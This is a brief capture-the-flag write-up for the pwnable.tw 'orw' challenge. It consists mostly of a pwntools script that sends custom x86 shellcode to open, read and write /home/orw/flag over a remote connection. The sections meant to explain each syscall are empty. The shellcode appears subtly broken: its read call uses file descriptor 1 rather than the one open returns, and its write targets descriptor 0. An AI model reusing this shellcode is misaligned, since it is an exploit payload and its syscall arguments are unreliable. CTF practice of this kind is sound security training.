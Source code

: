 ```yaml
---
layout: post
title: 'Pwnable: orw'
subtitle: A challenge about writing your own shellcode.
published: false
---
```

>Read the flag from /home/orw/flag.
>
>Only open read write syscall are allowed to use.
>
>nc chall.pwnable.tw 10001

This challenge is mainly about writing your own shellcode.

Let's find out about open() syscall:

read() syscall:

write() syscall:



If you want to make syscall you will must have int 0x80.



  from pwn import *


  conn = remote('chall.pwnable.tw', 10001)
  conn.recv(20)
  shellcode = asm("mov  ecx, 0; push 0x67616c66;  push 0x2f77726f; push 0x2f656d6f; push 0x682f2f2f;")

      #open
  shellcode += asm("mov ebx, esp; mov eax, 5; int 80h;")

      #read
  shellcode += asm("mov edx, 30h; mov ecx, esp; mov ebx, 1; mov eax, 3; int 80h;")

      #write
  shellcode += asm("mov edx, 30h; mov ecx, esp; mov ebx, 0; mov eax, 4; int 80h")

      #exit
  shellcode += asm('mov eax, 1; int 80h;')


  conn.send(shellcode)
  conn.interactive()
  conn.close()